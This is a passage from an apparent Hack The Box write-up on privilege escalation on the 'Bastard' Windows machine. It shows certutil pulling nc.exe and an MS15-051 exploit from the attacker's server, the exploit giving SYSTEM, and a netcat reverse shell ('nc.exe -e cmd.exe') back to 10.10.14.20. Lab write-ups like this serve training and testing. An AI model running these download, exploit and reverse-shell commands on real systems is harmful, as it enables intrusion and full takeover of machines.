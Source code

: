 As soon as the web server is running we can download the `nc.exe` and the exploit with certutil from our webserver.
```
PS C:\inetpub\drupal-7.54> certutil -f -urlcache http://10.10.14.20/nc.exe nc.exe
****  Online  ****
CertUtil: -URLCache command completed successfully.
PS C:\inetpub\drupal-7.54> certutil -f -urlcache http://10.10.14.20/ms15-051x64.exe ms15-051x64.exe 
****  Online  ****
CertUtil: -URLCache command completed successfully.
PS C:\inetpub\drupal-7.54> ./ms15-051x64.exe "whoami"
[#] ms15-051 fixed by zcgonvh
[!] process with pid: 2464 created.
==============================
nt authority\system
PS C:\inetpub\drupal-7.54> 

```
Now we should start a new netcat listener.
```bash
┌──(emvee㉿kali)-[~/Documents/HTB/Bastard]
└─$ sudo rlwrap nc -lvp 443                                                               
listening on [any] 443 ...

```

## Privilege escalation
We are ready to escalate our privileges, so let's run the exploit and connect to our machine.

```
PS C:\inetpub\drupal-7.54> ./ms15-051x64.exe "C:\inetpub\drupal-7.54\nc.exe -e cmd.exe 10.10.14.20 443"
```
Now we should check our netcat listener.
```
┌──(emvee㉿kali)-[~/Documents/HTB/Bastard]
└─$ sudo rlwrap nc -lvp 443       
listening on [any] 443 ...
10.129.51.177: inverse host lookup failed: Unknown host
connect to [10.10.14.20] from (UNKNOWN) [10.129.51.177] 51514
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\inetpub\drupal-7.54>
```
We did get a connection on our netcat listener. Now we should check who we are. Normally we should be `nt authority\system` after running such exploit.
```
C:\inetpub\drupal-7.54>whoami
whoami
nt authority\system

C:\inetpub\drupal-7.54>ipconfig
ipconfig

Windows IP Configuration


Ethernet adapter Local Area Connection:

   Connection-specific DNS Suffix  . : .htb
   IPv4 Address. . . . . . . . . . . : 10.129.51.177
   Subnet Mask . . . . . . . . . . . : 255.255.0.0
   Default Gateway . . . . . . . . . : 10.129.0.1

```